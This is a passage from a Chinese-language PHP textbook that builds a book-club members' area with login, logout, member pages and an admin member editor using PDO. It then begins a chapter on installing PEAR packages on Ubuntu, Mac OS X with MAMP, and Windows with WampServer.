} elseif ( !$loggedInMember = $member->authenticate() ) {
$errorMessages[] = '<p class="error">Sorry, we could not log you in with
those details. Please check your username and password, and try again.</p>';
}

if ( $errorMessages ) {
displayForm( $errorMessages, $missingFields, $member );
} else {
$_SESSION["member"] = $loggedInMember;
displayThanks();
}
}

function displayThanks() {
```

该脚本的结构与你之前创建的 `register.php` 脚本类似。如果提交了登录表单，则调用 `processForm()`；否则，调用 `displayForm()`。`displayForm()` 显示登录表单，该表单包含用户名和密码字段以及一个登录按钮。任何错误消息都会显示在表单顶部，任何缺失的字段都会以红色突出显示。

`processForm()` 检查提交的登录详细信息，如果有效，则登录成员。首先，它使用提供的用户名和密码（已过滤以移除任何无效字符）创建一个新的 `Member` 对象。如果任一字段缺失，则会生成一条错误消息。否则，脚本通过调用 `Member` 对象的 `authenticate()` 方法来验证输入的用户名和密码：

```php
} elseif ( !$loggedInMember = $member->authenticate() ) {
```

请记住，如果用户名和密码匹配，此方法将返回表示登录成员的 `Member` 对象；否则它不返回任何内容。因此，如果 `$loggedInMember` 为 false，则登录失败并会生成一条错误消息：

```php
$errorMessages[] = '<p class="error">Sorry, we could not log you in with those details. Please check your username and password, and try again.</p>';
```

如果生成了任何错误消息，则会重新显示表单。否则，一切正常，因此登录的 `Member` 对象会存储在会话中，并显示感谢页面：

```php
if ( $errorMessages ) {
	displayForm( $errorMessages, $missingFields, $member );
} else {
	$_SESSION["member"] = $loggedInMember;
	displayThanks();
}
```

通过将表示登录成员的 `Member` 对象存储在 `$_SESSION` 数组中，应用程序中的其他脚本可以轻松检查成员是否当前已登录，并只需查看会话数据即可识别登录成员。

最后一个函数 `displayThanks()` 会感谢成员登录，并提供一个链接，引导他们进入成员区的主页 `index.php`。

## 创建注销功能

除了能够登录成员区外，成员在结束会话后还需要能够注销。为此，请创建一个清除 `$_SESSION["member"]` 变量的简单脚本。将以下文件保存为成员文件夹中的 `logout.php`：

```php
<?php
require_once ( "../common.inc.php" );
session_start();
$_SESSION["member"] = "";
displayPageHeader( "Logged out", true );
?>
<p>Thank you, you are now logged out. <a href="login.php">Login again</a>.</p>
<?php
displayPageFooter();
?>
```

访问此页面时，它会立即注销成员，然后显示一条感谢消息，并附带一个邀请他们再次登录的链接。

## 为成员区创建页面

你现在已经构建了成员区的核心功能。剩下要做的就是为成员区创建一些示例页面。在你之前创建的成员文件夹中创建以下四个页面。

### index.php：

```php
<?php
require_once ( "../common.inc.php" );
checkLogin();
displayPageHeader( "Welcome to the Members' Area", true );
?>
<p>Welcome, <?php echo $_SESSION["member"]->getValue( "firstName" ) ?>!
Please choose an option below:</p>
<ul>
<li><a href="diary.php">Upcoming events</a></li>
<li><a href="books.php">Current reading list</a></li>
<li><a href="contact.php">Contact the book club</a></li>
<li><a href="logout.php">Logout</a></li>
</ul>
<?php displayPageFooter(); ?>
```

### books.php：

```php
<?php
require_once( "../common.inc.php" );
checkLogin();
displayPageHeader( "Our current reading list", true );
?>

<dl>
<dt>Moby Dick</dt>
<dd>by Herman Melville</dd>
<dt>Down and Out in Paris and London</dt>
<dd>by George Orwell</dd>
<dt>The Grapes of Wrath</dt>
<dd>by John Steinbeck</dd>
</dl>

<p><a href="index.php">Members' area home page</a></p>

<?php displayPageFooter(); ?>
```

### contact.php：

```php
<?php
require_once( "../common.inc.php" );
checkLogin();
displayPageHeader( "Contact the book club", true );
?>

<p>You can contact Marian, the organizer of the book club, on <strong>187-812-8166</strong>.</p>

<p><a href="index.php">Members' area home page</a></p>

<?php displayPageFooter(); ?>
```

### diary.php：

```php
<?php
require_once( "../common.inc.php" );
checkLogin();
displayPageHeader( "Upcoming events", true );
?>

<dl>
<dt>September 23</dt>
<dd>Book reading by Billy Pierce</dd>
<dt>October 3</dt>
<dd>Club outing to Yellowstone</dd>
<dt>October 17</dt>
<dd>Book signing by Valerie Wordsworth at the local bookstore</dd>
</dl>

<p><a href="index.php">Members' area home page</a></p>

<?php displayPageFooter(); ?>
```

这四个页面都很简单。在每种情况下，都会包含 `common.inc.php` 以加载所有通用代码和类文件。然后，会调用 `common.inc.php` 中的 `checkLogin()` 函数，以验证尝试查看页面的用户是否已以成员身份登录。请记住，如果用户未登录，`checkLogin()` 会将其重定向到登录页面并退出应用程序。

调用 `checkLogin()` 后，每个脚本都会通过调用 `displayPageHeader()` 显示 XHTML 页面标题，然后输出页面内容，最后通过 `displayPageFooter()` 输出页面页脚。

请注意，`index.php` 还会使用 `$_SESSION["member"]->getValue( "firstName" )` 检索登录成员的名并显示它。登录的成员存储在 PHP 会话中，因此成员的详细信息可从应用程序中的任何脚本访问。`index.php` 还包含一个注销菜单选项，它仅链接到你之前创建的 `logout.php` 脚本。

## 测试成员区

要试用你新创建的受密码保护的成员区，请在 Web 浏览器中访问 `book_club/members/index.php` 页面。如果未登录，你将被重定向到登录表单（图 14-2）。为 `members` 表中存储的成员输入用户名（例如，“sparky”）和密码（例如，“mypass”），然后单击登录按钮。如果输入的详细信息正确，你应该会看到感谢页面出现，其中包含一个链接，可引导你进入成员区。单击该链接以查看成员区主页 `index.php`，如图 14-3 所示。


图 14-2


图 14-3

通过单击链接在各个会员区页面之间导航。每次查看页面时，访问记录都会记录在 accessLog 表中。您可以通过运行在上一章中创建的 `view_members.php` 脚本，然后单击您登录的会员的用户名来查看其访问日志，以此自行验证，如图 14-4 所示。


| 网页 | 访问次数 | 上次访问 |
| :--- | :--- | :--- |
| index.php | 7 | 2008-11-24 17:14:08 |
| books.php | 2 | 2008-11-24 17:09:27 |
| contact.php | 1 | 2008-11-24 17:09:10 |
| diary.php | 3 | 2008-11-24 17:09:04 |

图 14-4

浏览完会员区后，返回会员区首页，单击“注销”链接返回登录页面。

在过去几个章节中，您扩展了对 MySQL 和 PDO 的了解，并创建了一个带有访问日志的受密码保护的会员区。尽管这个系统相当简单，但您可以将所学原理应用于各种数据库驱动的应用程序和会员系统。

顺便说一句，您可能已经发现了这个应用程序中一个明显的安全漏洞：任何人都可以运行 `view_members.php` 和 `view_member.php` 脚本来查看会员信息！在实际情况下，您可以执行以下操作：

- 1. 将 `view_members.php` 和 `view_member.php` 脚本放置在会员区内，因此您需要登录才能使用它们。
- 2. 在 `members` 表中创建一个额外的 BIT 字段 `admin`。该字段值为 1 表示该成员是管理员；0 表示该成员是普通用户。
- 3. 在 `view_members.php` 和 `view_member.php` 脚本中，检查当前登录成员的 `admin` 字段状态。如果设置为 1，允许他们使用这些脚本；否则，将他们重定向到会员区首页。

## 创建会员管理器应用程序

您的读书俱乐部系统现在可以注册新会员，允许会员登录和退出会员区，并跟踪会员区内的页面访问量。此外，通过将这些脚本与您在上一章中创建的会员记录查看器相结合，管理员可以查看系统中所有会员的列表，以及每个会员的详细信息和访问日志。

还有一个拼图部分需要构建，即让管理员管理会员的功能。在本节中，您将增强 `view_member.php` 脚本，以允许管理员编辑每个会员的信息，以及从数据库中删除会员。

## 向 Member 类添加更新和删除方法

为了让管理员可以编辑和删除会员，您需要向 `Member` 类添加几个方法：`update()`，用于允许在 `members` 表中更新 `Member` 对象的详细信息；`delete()`，用于从 `members` 表中完全删除 `Member` 对象。

打开 `Member.class.php` 文件，在 `insert()` 方法之后添加以下两个方法：

```php
public function update() {
	$conn = parent::connect();
	$passwordSql = $this->data["password"] ? "password = password(:password)," : "";

	$sql = "UPDATE " . TBL_MEMBERS . " SET
    username = :username,
    $passwordSql
    firstName = :firstName,
    lastName = :lastName,
    joinDate = :joinDate,
    gender = :gender,
    favoriteGenre = :favoriteGenre,
    emailAddress = :emailAddress,
    otherInterests = :otherInterests
WHERE id = :id";

try {
    $st = $conn->prepare( $sql );
    $st->bindValue( ":id", $this->data["id"], PDO::PARAM_INT );
    $st->bindValue( ":username", $this->data["username"], PDO::PARAM_STR );
    if ( $this->data["password"] ) $st->bindValue( ":password", $this->data["password"], PDO::PARAM_STR );
    $st->bindValue( ":firstName", $this->data["firstName"], PDO::PARAM_STR );
    $st->bindValue( ":lastName", $this->data["lastName"], PDO::PARAM_STR );
    $st->bindValue( ":joinDate", $this->data["joinDate"], PDO::PARAM_STR );
    $st->bindValue( ":gender", $this->data["gender"], PDO::PARAM_STR );
    $st->bindValue( ":favoriteGenre", $this->data["favoriteGenre"], PDO::PARAM_STR );
    $st->bindValue( ":emailAddress", $this->data["emailAddress"], PDO::PARAM_STR );
    $st->bindValue( ":otherInterests", $this->data["otherInterests"], PDO::PARAM_STR );
    $st->execute();
    parent::disconnect( $conn );
} catch ( PDOException $e ) {
    parent::disconnect( $conn );
    die( "Query failed: " . $e->getMessage() );
}

public function delete() {
    $conn = parent::connect();
    $sql = "DELETE FROM " . TBL_MEMBERS . " WHERE id = :id";

    try {
    $st = $conn->prepare( $sql );
    $st->bindValue( ":id", $this->data["id"], PDO::PARAM_INT );
    $st->execute();
    parent::disconnect( $conn );
} catch ( PDOException $e ) {
    parent::disconnect( $conn );
    die( "Query failed: " . $e->getMessage() );
}
}
```

`update()` 创建一个 SQL UPDATE 语句，将 members 表中现有记录的字段值设置为 Member 对象中存储的值。密码字段会得到特殊处理：如果它包含密码，则会对其进行加密，并通过 `$passwordSql` 字符串变量将相关 SQL 传递到 UPDATE 语句中：

```php
$passwordSql = $this->data["password"] ? "password = password(:password)," : "";
```

此外，密码字段值通过调用 `bindValue()` 传递到查询中：

```php
if ( $this->data["password"] ) $st->bindValue( ":password", $this->data["password"], PDO::PARAM_STR );
```

如果密码字段为空，该方法假设不需要更新密码，因此将其从 UPDATE 语句中省略。

`delete()` 只需删除 Member 对象 `id` 字段中存储的 ID 的会员记录。为此，它会在 WHERE 子句中包含会员 ID 的方式创建一个 SQL DELETE 语句。

## 向 LogEntry 类添加删除方法

当会员从系统中删除时，您还希望从 accessLog 表中删除他们所有关联的日志条目。如果不这样做，数据库将不再具有完整性，因为 accessLog 表将包含指向不存在会员记录的孤立条目。

通过向 LogEntry 类添加一个名为 `deleteAllForMember()` 的方法，可以轻松实现这一点。该方法期望传递相关会员的 ID。然后它会运行一个 DELETE 语句来删除关联的日志条目。

打开 `LogEntry.class.php` 文件，在现有的 `record()` 方法之后添加以下代码：

```php
public static function deleteAllForMember( $memberId ) {
$conn = parent::connect();
$sql = "DELETE FROM " . TBL_ACCESS_LOG . " WHERE memberId = :memberId";
try {
$st = $conn->prepare( $sql );
$st->bindValue( ":memberId", $memberId, PDO::PARAM_INT );
$st->execute();
parent::disconnect( $conn );
} catch ( PDOException $e ) {
parent::disconnect( $conn );
die( "Query failed: " . $e->getMessage() );
}
}
```

## 调整 view_members.php 脚本

需要对会员列表查看器 view_members.php 进行一处小修改。打开此文件，并更改以下代码片段中高亮显示的行：

```php
<tr><?php if ( $rowCount % 2 == 0 ) echo ' class="alt"' ?>>
<td><a href="view_member.php?memberId=<?php echo $member->getValueEncoded( "id" ) ?>&amp;start=<?php echo $start ?>&amp;order=<?php echo $order ?>"><?php echo $member->getValueEncoded( "username" ) ?></a></td>
<td><?php echo $member->getValueEncoded( "firstName" ) ?></td>
<td><?php echo $member->getValueEncoded( "lastName" ) ?></td>
</tr>
```

此处唯一的更改是，start 和 order 查询字符串参数现在被传递到 view_member.php 脚本。这样做是为了让管理员可以轻松返回到会员列表的同一页面，并且列表仍按正确的列排序。稍后您将看到此功能在 view_member.php 脚本中的用法。

## 创建 view_member.php 脚本

构建会员管理器的最后一步是创建一个新的 view_member.php 脚本，允许管理员编辑和删除会员。该脚本基于您在上一章中创建的 view_member.php 文件。主要区别在于，会员数据现在以表单形式显示，允许进行编辑，并且该脚本包含保存编辑和删除会员的功能。

打开现有的 view_member.php 文件，并用以下代码替换其内容：

```php
<?php
require_once( "common.inc.php" );
require_once( "config.php" );
require_once( "Member.class.php" );
require_once( "LogEntry.class.php" );

$memberId = isset( $_REQUEST["memberId"] ) ? (int)$_REQUEST["memberId"] : 0;

if ( !$member = Member::getMember( $memberId ) ) {
displayPageHeader( "Error" );
echo "<div>Member not found.</div>";
displayPageFooter();
exit;
}

if ( isset( $_POST["action"] ) and $_POST["action"] == "Save Changes" ) {
saveMember();
}
```


```php
} elseif ( isset( $_POST["action"] ) and $_POST["action"] == "Delete Member" ) {
    deleteMember();
} else {
    displayForm( array(), array(), $member );
}

function displayForm( $errorMessages, $missingFields, $member ) {
    $logEntries = LogEntry::getLogEntries( $member->getValue( "id" ) );
    displayPageHeader( "View member: " . $member->getValueEncoded(
        "firstName" ) . " " . $member->getValueEncoded( "lastName" ) );

    if ( $errorMessages ) {
        foreach ( $errorMessages as $errorMessage ) {
            echo $errorMessage;
        }
    }

    $start = isset( $_REQUEST["start"] ) ? (int)$_REQUEST["start"] : 0;
    $order = isset( $_REQUEST["order"] ) ? preg_replace( "/[^ a-zA-Z]/", "",
        $_REQUEST["order"] ) : "username";
?>

<form action="view_member.php" method="post" style="margin-bottom: 50px;">
    <div style="width: 30em;">
        <input type="hidden" name="memberId" id="memberId" value="<?php echo $member->getValueEncoded( "id" ) ?>" />
        <input type="hidden" name="start" id="start" value="<?php echo $start ?>" />
        <input type="hidden" name="order" id="order" value="<?php echo $order ?>" />

        <label for="username"><?php validateField( "username", $missingFields ) ?>Username *</label>
        <input type="text" name="username" id="username" value="<?php echo $member->getValueEncoded( "username" ) ?>" />
        <label for="password">New password</label>
        <input type="password" name="password" id="password" value="" />
        <label for="emailAddress"><?php validateField( "emailAddress", $missingFields ) ?>Email address *</label>
        <input type="text" name="emailAddress" id="emailAddress" value="<?php echo $member->getValueEncoded( "emailAddress" ) ?>" />
        <label for="firstName"><?php validateField( "firstName", $missingFields ) ?>First name *</label>
        <input type="text" name="firstName" id="firstName" value="<?php echo $member->getValueEncoded( "firstName" ) ?>" />
        <label for="lastName"><?php validateField( "lastName", $missingFields ) ?>Last name *</label>
        <input type="text" name="lastName" id="lastName" value="<?php echo $member->getValueEncoded( "lastName" ) ?>" />
        <label for="joinDate"><?php validateField( "joinDate", $missingFields ) ?>Joined on *</label>
        <input type="text" name="joinDate" value="<?php echo $member->getValueEncoded( "joinDate" ) ?>" />
        <label><?php validateField( "gender", $missingFields ) ?>Gender</label>
        <label for="genderMale">Male</label>
        <input type="radio" name="gender" id="genderMale" value="m"<?php setChecked( $member, "gender", "m" ) ?> />
        <label for="genderFemale">Female</label>
        <input type="radio" name="gender" id="genderFemale" value="f"<?php setChecked( $member, "gender", "f" ) ?> />
        <label for="favoriteGenre">Favorite genre</label>
        <select name="favoriteGenre" id="favoriteGenre" size="1">
<?php foreach ( $member->getGenres() as $value => $label ) { ?>
<option value="<?php echo $value ?>"<?php setSelected( $member, "favoriteGenre", $value ) ?><?php echo $label ?></option>
<?php } ?>
</select>
        <label for="otherInterests">Other interests</label>
        <textarea name="otherInterests" id="otherInterests" rows="4" cols="50"><?php echo $member->getValueEncoded( "otherInterests" ) ?></textarea>
        <div style="clear: both;">
        <input type="submit" name="action" id="saveButton" value="Save Changes" />
        <input type="submit" name="action" id="deleteButton" value="Delete Member" style="margin-right: 20px;" />
        </div>
    </div>
</form>
<h2>Access log</h2>
<table cellspacing="0" style="width: 30em; border: 1px solid #666;">
<tr>
<th>Web page</th>
<th>Number of visits</th>
<th>Last visit</th>
</tr>
<?php
$rowCount = 0;
foreach ( $logEntries as $logEntry ) {
$rowCount++;
?>
<tr<?php if ( $rowCount % 2 == 0 ) echo ' class="alt"' ?>>
<td><?php echo $logEntry->getValueEncoded( "pageUrl" ) ?></td>
<td><?php echo $logEntry->getValueEncoded( "numVisits" ) ?></td>
<td><?php echo $logEntry->getValueEncoded( "lastAccess" ) ?></td>
</tr>
<?php
}
?>
</table>
```

## 第三部分：在实践中使用 PHP

```php
</table>

<div style="width: 30em; margin-top: 20px; text-align: center;">
<a href="view_members.php?start=<?php echo $start ?>&amp;order=<?php echo $order ?>">Back</a>
</div>

<?php
displayPageFooter();
}

function saveMember() {
    $requiredFields = array( "username", "emailAddress", "firstName", "lastName", "joinDate", "gender" );
    $missingFields = array();
    $errorMessages = array();

    $member = new Member( array(
        "id" => isset( $_POST["memberId"] ) ? (int) $_POST["memberId"] : "",
        "username" => isset( $_POST["username"] ) ? preg_replace( "/[^ \-_a-zA-Z0-9]/", "", $_POST["username"] ) : "",
        "password" => isset( $_POST["password"] ) ? preg_replace( "/[^ \-_a-zA-Z0-9]/", "", $_POST["password"] ) : "",
        "emailAddress" => isset( $_POST["emailAddress"] ) ? preg_replace( "/[^ \@\.\-\_a-zA-Z0-9]/", "", $_POST["emailAddress"] ) : "",
        "firstName" => isset( $_POST["firstName"] ) ? preg_replace( "/[^ \-_a-zA-Z0-9]/", "", $_POST["firstName"] ) : "",
        "lastName" => isset( $_POST["lastName"] ) ? preg_replace( "/[^ \-_a-zA-Z0-9]/", "", $_POST["lastName"] ) : "",
        "joinDate" => isset( $_POST["joinDate"] ) ? preg_replace( "/[^\-0-9]/", "", $_POST["joinDate"] ) : "",
        "gender" => isset( $_POST["gender"] ) ? preg_replace( "/[^mf]/", "", $_POST["gender"] ) : "",
        "favoriteGenre" => isset( $_POST["favoriteGenre"] ) ? preg_replace( "/[^a-zA-Z-0-9]/", "", $_POST["favoriteGenre"] ) : "",
        "otherInterests" => isset( $_POST["otherInterests"] ) ? preg_replace( "/[^ \\\\\\.-\a-zA-Z0-9]/", "", $_POST["otherInterests"] ) : ""
    ) );

    foreach ( $requiredFields as $requiredField ) {
        if ( !$member->getValue( $requiredField ) ) {
            $missingFields[] = $requiredField;
        }
    }

    if ( $missingFields ) {
        $errorMessages[] = '<p class="error">There were some missing fields in the form you submitted. Please complete the fields highlighted below and click Save Changes to resend the form.</p>';
    }

    if ( $existingMember = Member::getByUsername( $member->getValue( "username" ) ) and $existingMember->getValue( "id" ) != $member->getValue( "id" ) ) {
        $errorMessages[] = '<p class="error">A member with that username already exists in the database. Please choose another username.</p>';
    }
    if ( $existingMember = Member::getByEmailAddress( $member->getValue( "emailAddress" ) ) and $existingMember->getValue( "id" ) != $member->getValue( "id" ) ) {
        $errorMessages[] = '<p class="error">A member with that email address already exists in the database. Please choose another email address.</p>';
    }
    if ( $errorMessages ) {
        displayForm( $errorMessages, $missingFields, $member );
    } else {
        $member->update();
        displaySuccess();
    }
}
function deleteMember() {
    $member = new Member( array(
        "id" => isset( $_POST["memberId"] ) ? (int) $_POST["memberId"] : "",
    ) );
    LogEntry::deleteAllForMember( $member->getValue( "id" ) );
    $member->delete();
    displaySuccess();
}
function displaySuccess() {
    $start = isset( $_REQUEST["start"] ) ? (int)$_REQUEST["start"] : 0;
    $order = isset( $_REQUEST["order"] ) ? preg_replace( "/[^ a-zA-Z]/", "", $_REQUEST["order"] ) : "username";
    displayPageHeader( "Changes saved" );
?>
<p>Your changes have been saved. <a href="view_members.php?start=<?php echo $start ?>&amp;order=<?php echo $order ?>">Return to member list</a></p>
<?php
    displayPageFooter();
}
?>
```

脚本的开头与之前类似。它从查询字符串或表单提交中获取提供的成员 ID，然后通过调用 `Member::getMember()` 在数据库中查找该成员。如果未找到成员，则显示错误并退出脚本。否则，将成员存储在 `$member` 中。

接下来，脚本决定调用哪个函数。如果点击了“保存更改”按钮，则调用 saveMember() 来更新数据库中的成员记录。如果点击了“删除成员”按钮，则调用 deleteMember() 来从数据库中删除成员。否则，调用 displayForm() 来显示成员详情表单和访问日志记录。脚本将检索到的 $member 对象传递给 displayForm()，以便可以显示其数据。

displayForm() 函数的工作方式与你在本章前面创建的 register.php 脚本中的对应函数类似。首先，它检索与相关成员有关的 LogEntry 对象列表，并将其存储在 $logEntries 数组中。显示页面标题后，该函数在页面顶部输出任何错误消息。

接下来，displayForm() 从查询字符串或表单提交中检索 start 和 order 参数，并将其存储在 $start 和 $order 中。然后显示表单本身。表单包含三个隐藏字段：

```
<input type="hidden" name="memberId" id="memberId" value="<?php echo $member->getValueEncoded( "id" ) ?>"/>
<input type="hidden" name="start" id="start" value="<?php echo $start ?>"/>
<input type="hidden" name="order" id="order" value="<?php echo $order ?>"/>
```

memberId 跟踪正在查看或编辑的成员的 ID，start 和 order 将各自的值从成员列表页面传递下来，以便管理员在查看或编辑成员后可以返回成员列表中的同一点。

表单的其余部分与 register.php 中的工作方式大致相同。每个表单字段都会显示，使用 Member::getValueEncoded()、setChecked() 和 setSelected() 从 Member 对象中检索数据并显示它。表单底部包含“保存更改”按钮和“删除成员”按钮。表单之后，访问日志详细信息的显示方式与旧的 view_member.php 脚本相同。

表单底部的“返回”链接与 register.php 的工作方式略有不同。因为你不知道管理员提交了多少次表单，所以不能像 register.php 那样使用 JavaScript 函数调用返回上一页到成员列表页面。因此，你改为构建一个新链接以返回到 view_members.php，将 $start 和 $order 的值作为 start 和 order 查询字符串参数传递，以便将管理员返回到成员列表中的同一点。

saveMember() 检查表单中提交的成员数据，如果有效，则更新数据库中的成员记录。它的工作方式与 register.php 中的 processForm() 大致相同。会创建一个新的 Member 对象，包含从表单发送的过滤值。如果缺少任何必填字段，或者所选用户名或电子邮件地址已被其他成员使用，则会生成错误消息，并通过调用 displayForm() 重新显示表单。

如果一切顺利，通过调用 $member->update() 更新成员记录，并通过调用 displaySuccess() 显示成功消息。请注意，由于 Member::update() 方法的设计，管理员可以将密码字段留空，以保留成员的现有密码。


deleteMember() 只需创建一个仅包含表单 memberId 隐藏字段中存储的 ID 的新 Member 对象，然后调用对象的 delete() 方法从 members 表中删除成员记录。它还会调用 LogEntry::deleteAllForMember() 静态方法，传入成员 ID，以删除与此成员关联的任何访问日志条目。

最后，displaySuccess() 函数会通知管理员更新或删除操作已成功，并提供一个链接，以便管理员返回之前中断的成员列表位置。它通过将表单提交中的 start 和 order 参数传递到链接的查询字符串中来实现这一点。

## 测试成员管理器

你已构建好成员管理器，现在是时候测试它了。导航到 book_club 文件夹中的 view_members.php 脚本以查看数据库中的成员列表（图 14-5）。点击成员的用户名以查看和编辑其详细信息（图 14-6）。尝试在表单中输入不同的值，然后单击“保存更改”以更新成员。随后，你可以在成员列表中再次点击用户名，以验证更改确实已生效。点击“删除成员”即可将成员从系统中彻底移除。


图 14-5


图 14-6

| 网页 | 访问次数 | 上次访问 |
|---|---|---|
| index.php | 7 | 2000-11-24 17:14:08 |

## 总结

本章结束了关于使用 PHP 和 MySQL 构建数据库驱动应用程序的三章系列。与上一章专注于从 MySQL 数据库读取数据不同，本章你学习了如何修改 MySQL 数据。

首先，你探索了 SQL INSERT、UPDATE 和 DELETE 语句，并学习了如何在 PHP 脚本中使用 PDO 执行这些语句。

本章余下部分侧重于实际示例，向你展示如何使用 PDO 操作 MySQL 数据：

- 首先，你编写了一个允许新成员为你的虚构读书俱乐部数据库注册的脚本。这包括向公共代码文件添加一些实用函数，在 Member 类中创建方法以插入成员并检查用户名或电子邮件地址是否已被占用，最后，创建注册脚本本身。该脚本显示注册表单并处理来自表单的提交，检查表单数据，如果有效，则将成员添加到 members 表中。

- 你还创建了读书俱乐部网站的会员专区，会员可以在其中登录、登出和查看页面。这包括使用 `authenticate()` 方法增强你的 `Member` 类以检查登录详细信息，向 `LogEntry` 类添加 `record()` 方法以跟踪页面浏览量，并向公共代码添加 `checkLogin()` 函数以检查会员是否已登录。然后，你创建了一个登录脚本来显示和处理登录表单，一个登出脚本来登出会员，以及会员专区中的各种示例页面。

- 在本章的最后部分，你扩展了前一章中的 `view_member.php` 脚本，以允许管理员编辑成员详细信息，并从 `members` 表中删除成员。在此过程中，你向 `Member` 类添加了 `update()` 和 `delete()` 方法，并编写了一个 `LogEntry` 类方法来删除特定成员的所有日志条目。

现在你已经学完了这三章，具备了构建功能丰富的数据库驱动 PHP 应用程序所需的基础知识。虽然这些章节涵盖了基础知识，但 MySQL 和 PDO 远不止于此。如果你想了解更多，请查阅在线 MySQL 手册 http://dev.mysql.com/doc/#manual 和 PHP 手册中的 PDO 部分 http://www.php.net/pdo。祝你使用愉快！

在下一章中，你将转向一个新主题：PEAR。这是一个庞大的免费现成 PHP 脚本库，可以大大加速你的应用程序开发过程。不过，在继续之前，请查看以下两个练习以巩固你对 SQL 和数据库驱动应用程序的知识。你可以在附录 A 中找到这些练习的答案。

## 练习

- 1. 编写一个 SQL 查询，返回读书俱乐部 `members` 表中按受欢迎程度排序（最受欢迎的排在前面）的喜爱类型列表。

- 2. 向你的成员编辑器脚本 `view_member.php` 添加一个“清除访问日志”按钮，用于删除正在查看的成员相关的 `accessLog` 表中的所有记录。

## 使用 PEAR 让你的工作更轻松

一旦你开始创建几个 PHP Web 应用程序，你就会发现你的脚本常常需要反复执行相同的任务。例如，许多应用程序需要登录/登出机制，大多数 Web 应用程序在某个时刻都会显示和处理 HTML 表单。

如果你以模块化方式编写了应用程序，使用类和函数将其分解为特定功能块，你应该会发现可以在不同应用程序之间重用这些类或函数。例如，你在第 13 章和第 14 章中开发的 Member 类可以轻松用于任何 Web 应用程序中成员的注册、存储和检索。

代码重用很重要，因为它可以节省你数小时的时间。然而，与其重用自己的代码，不如重用别人的代码？这样一来，你甚至不需要从头编写代码！PEAR 就派上用场了。PEAR 是 PHP Extension and Application Repository 的缩写，是一个高质量开源代码包的大型集合，你可以免费下载并在自己的应用程序中使用。

> 使用 PEAR 包时，请务必检查其许可证。某些包许可证允许你几乎以任何方式使用该包；例如，你可以将代码包含在随后作为产品出售的应用程序中。其他许可证则更具限制性。

每个包都是为实现特定目标而单独维护的类或一组类。在撰写本文时，可用的包超过 500 个，涵盖从数据库访问到身份验证、文件处理、日期格式化、网络和电子邮件，甚至天气预报的方方面面。你可以在 http://pear.php.net/packages.php 浏览完整列表。虽然许多包可以独立运行，但一个包通常需要一个或多个其他包来完成其工作。这些其他包称为主包的依赖项。

在开始任何新项目之前，最好先检查 PEAR 仓库，看看是否有可以纳入应用程序的包。你可能会发现，你的一半工作已经为你完成了，节省了大量时间。

在本章中，你将深入了解 PEAR，并学习如何安装和卸载 PEAR 包。你将通过编写一些使用这些包的简单脚本来探索一些有用的包。到本章结束时，你将编写出能够执行以下操作的应用程序：

- 检测用户的浏览器
- 使用纯 PHP 代码生成 HTML 表格
- 创建、验证和处理 Web 表单

在每种情况下，你都使用 PEAR 包来完成大部分繁重工作，从而让你能够专注于应用程序的逻辑。到本章结束时，你应该能很好地理解 PEAR 包的威力，以及可重用代码的一般价值。

### 安装 PEAR 包

要使用 PEAR 包，你需要将其安装与 PHP 安装相同的 Web 服务器上，以便你的 PHP 脚本可以访问它。得益于随 PHP 安装一起提供的 PEAR 包管理器，安装 PEAR 包很容易。不过，首先要做的是找到需要安装的包的名称。你可以通过以下一种或多种方式来完成：

- 你可以在 http://pear.php.net/packages.php 按类别浏览包
- 你可以在 http://pear.php.net/search.php 搜索包名称和描述
- 你可以在 http://pear.php.net/package-stats.php 查看按受欢迎程度（下载量最多的排在前面）排序的完整包列表

找到要安装的包后，就可以运行 PEAR 包管理器来安装它了。不过，首先最好测试一下包管理器是否可用且正常工作。如果你的 PHP 安装在 Ubuntu 或 Mac OS X 上，PEAR 包管理器已经安装并可用。在 Windows 上，你需要先设置包管理器。

### 在 Ubuntu 上测试 PEAR 包管理器

要在 Ubuntu 上试用 PEAR 包管理器，只需打开一个终端窗口（应用程序 > 附件 > 终端），然后输入：

```
pear
```

然后按 Enter。你应该会看到如下命令列表：

```
$ pear
Commands:
build    Build an Extension From C Source
bundle   Unpacks a Pecl Package
channel-add    Add a Channel
channel-alias  Specify an alias to a channel name
channel-delete Remove a Channel From the List
channel-discover Initialize a Channel from its server
channel-info   Retrieve Information on a Channel
```


| 命令 | 描述 |
| --- | --- |
| channel-update | 更新现有频道 |
| clear-cache | 清除 Web 服务缓存 |
| config-create | 创建默认配置文件 |
| config-get | 显示单个设置 |
| config-help | 显示设置信息 |
| config-set | 更改设置 |
| config-show | 显示所有设置 |
| convert | 将 package.xml 1.0 转换为 package.xml 2.0 格式 |
| cvsdiff | 为包中所有文件运行 "cvs diff" |
| cvstag | 设置 CVS 发布标记 |
| download | 下载包 |
| download-all | 下载默认频道中每个可用包 |
| info | 显示包的信息 |
| install | 安装包 |
| list | 列出默认频道中已安装的包 |
| list-all | 列出所有包 |
| list-channels | 列出可用频道 |
| list-files | 列出已安装包中的文件 |
| list-upgrades | 列出可用升级 |
| login | 连接并验证远程服务器 |
| logout | 从远程服务器登出 |
| makerpm | 从 PEAR 包构建 RPM spec 文件 |
| package | 构建包 |
| package-dependencies | 显示包依赖项 |
| package-validate | 验证包一致性 |
| pickle | 构建 PECL 包 |
| remote-info | 远程包信息 |
| remote-list | 列出远程包 |
| run-scripts | 运行包中捆绑的安装后脚本 |
| run-tests | 运行回归测试 |
| search | 搜索远程包数据库 |
| shell-test | Shell 脚本测试 |
| sign | 签名包分发文件 |
| uninstall | 卸载包 |
| update-channels | 更新频道列表 |
| upgrade | 升级包 |
| upgrade-all | 升级所有包 |

Usage: pear [options] command [command-options] <parameters>
键入 "pear help options" 列出所有选项。
键入 "pear help shortcuts" 列出所有命令快捷方式。
键入 "pear help <command>" 获取指定命令的帮助。

以下是可以发送给 PEAR 包管理器的所有命令。例如，install 会向系统添加新包，而 uninstall 会删除包。

## 在 Mac OS X 和 MAMP 上测试 PEAR

如果在 Mac OS X 上使用 MAMP，流程类似，但应确保运行的是随 MAMP 附带的 PEAR 包管理器版本，而非默认的 Mac OS X 版本。首先打开终端窗口（应用程序 -> 实用工具 -> 终端），切换到 MAMP 安装目录的 PHP 二进制文件夹：

```
cd /Applications/MAMP/bin/php5/bin/
```

现在可以通过输入以下命令运行 PEAR 包管理器：

```
./pear
```

然后按 Return 键。与 Ubuntu 一样，你应该会看到命令列表出现。

## 在 Windows 上使用 WampServer 安装和测试 PEAR

如果在 Windows 上运行 WampServer，首先需要设置 PEAR 包管理器。为此，打开命令提示符（开始 => 所有程序 => 附件 => 命令提示符），并切换到 WampServer PHP 文件夹，例如：

```
cd C:\wamp\bin\php\php5.2.6
```

